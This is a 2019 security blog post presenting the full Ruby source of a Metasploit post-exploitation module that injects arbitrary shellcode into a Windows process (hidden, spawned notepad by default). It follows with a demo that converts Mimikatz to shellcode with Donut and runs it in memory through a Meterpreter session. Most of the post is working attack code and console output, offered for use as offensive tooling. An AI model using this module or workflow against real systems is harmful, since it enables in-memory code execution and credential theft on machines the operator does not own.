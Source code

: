 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## Meterpreter + Donut = Reflectively and Interactively Executing Arbitrary Executables via Shellcode Injection

I played a bit with the awesome [Donut](https://github.com/TheWover/donut) project, ending up writing a module for executing arbitrary shellcode within Meterpreter aka executing Mimikatz in-memory, reflectively and interactively! 🐱‍👤

## Motivation

[Donut](https://github.com/TheWover/donut) enables us to execute arbitrary .NET assembly, EXE, DLL, VBS, JS or XSL in-memory via Position Indipendent Code generation. Since I wrote in the past [the module for the Juicy variant of *Potato exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_075_reflection_juicy.rb), I knew that Metasploit offers some nice APIs to inject and run arbitrary shellcode, so I decided to write a module for arbitrary shellcode execution. I will demo it by popping an interactive, memory-only instance of Mimikatz!

## Source Code

This is the source code of the module. A [Pull Request](https://github.com/rapid7/metasploit-framework/pull/12391) was already opened to add it to the main repository.

Here it is a copy of the source code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/common'
require 'msf/core/post/windows/reflective_dll_injection'

class MetasploitModule < Msf::Post
  include Msf::Post::Common
  include Msf::Post::Windows::ReflectiveDLLInjection

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Manage Memory Shellcode Injection Module',
      'Description'   => %q{
        This module will inject into the memory of a process a specified shellcode.
      },
      'License'       => MSF_LICENSE,
      'Author'        => [ 'phra <https://iwantmore.pizza>' ],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('SHELLCODE', [true, 'Path to the shellcode to execute']),
        OptInt.new('PID', [false, 'Process Identifier to inject of process to inject the shellcode. (0 = new process)', 0]),
        OptBool.new('CHANNELIZED', [true, 'Retrieve output of the process', true]),
        OptBool.new('INTERACTIVE', [true, 'Interact with the process', true]),
        OptBool.new('HIDDEN', [true, 'Spawn an hidden process', true]),
        OptEnum.new('BITS', [true, 'Set architecture bits', '64', ['32', '64']])
      ])
  end

  # Run Method for when run command is issued
  def run

    # syinfo is only on meterpreter sessions
    print_status("Running module against #{sysinfo['Computer']}") if not sysinfo.nil?

    # Set variables
    shellcode = IO.read(datastore['SHELLCODE'])
    pid = datastore['PID']
    bits = datastore['BITS']
    p = nil
    if bits == '64'
      bits = ARCH_X64
    else
      bits = ARCH_X86
    end

    if pid == 0 or not has_pid?(pid)
      p = create_temp_proc(bits)
      print_status("Spawned process #{p.pid}")
    else
      print_status("Opening process #{p.pid}")
      p = client.sys.process.open(pid.to_i, PROCESS_ALL_ACCESS)
    end

    if bits == ARCH_X64 and client.arch == ARCH_X86
      print_error("You are trying to inject to a x64 process from a x86 version of Meterpreter.")
      print_error("Migrate to an x64 process and try again.")
      return false
    elsif arch_check(bits, p.pid)
      inject(shellcode, p)
    end
  end

  # Checks the Architeture of a Payload and PID are compatible
  # Returns true if they are false if they are not
  def arch_check(bits, pid)
    # get the pid arch
    client.sys.process.processes.each do |p|
      # Check Payload Arch
      if pid == p["pid"]
        print_status("Process found checking Architecture")
        if bits == p['arch']
          print_good("Process is the same architecture as the payload")
          return true
        else
          print_error("The PID #{ p['arch']} and Payload #{bits} architectures are different.")
          return false
        end
      end
    end
  end

  # Creates a temp notepad.exe to inject payload in to given the payload
  # Returns process PID
  def create_temp_proc(bits)
    windir = client.sys.config.getenv('windir')
    # Select path of executable to run depending the architecture
    if bits == ARCH_X86 and client.arch == ARCH_X86
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X64
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X86
      cmd = "#{windir}\\Sysnative\\notepad.exe"
    elsif bits == ARCH_X86 and client.arch == ARCH_X64
      cmd = "#{windir}\\SysWOW64\\notepad.exe"
    end

    proc = client.sys.process.execute(cmd, nil, {
      'Hidden' => datastore['HIDDEN'],
      'Channelized' => datastore['CHANNELIZED'],
      'Interactive' => datastore['INTERACTIVE']
    })

    return proc
  end

  def inject(shellcode, p)
    print_status("Injecting shellcode into process ID #{p.pid}")
    begin
      print_status("Allocating memory in process #{p.pid}")
      mem = inject_into_process(p, shellcode)
      print_status("Allocated memory at address #{"0x%.8x" % mem}, for #{shellcode.length} byte shellcode")
      p.thread.create(mem, 0)
      print_good("Successfully injected payload into process: #{p.pid}")

      if datastore['INTERACTIVE'] && datastore['CHANNELIZED'] && datastore['PID'] == 0
        print_status("Interacting")
        client.console.interact_with_channel(p.channel)
      elsif datastore['CHANNELIZED']
        print_status("Retrieving output")
        data = p.channel.read
        print_line(data) if data
      end
    rescue ::Exception => e
      print_error("Failed to inject Payload to #{p.pid}!")
      print_error(e.to_s)
    end
  end
end
```

## Demo

We want to reflectively and interactively execute Mimikatz on the target system. Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/mimikatz.exe -a 2 -o /tmp/payload.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/mimikatz.exe"
  [ File type     : EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/payload.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/payload.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # exit
Bye!
[*] Post module execution completed
```

![demo](../assets/images/shellcode-inject.jpg "Demo")

It works, awesome! 🚀

[back](../)
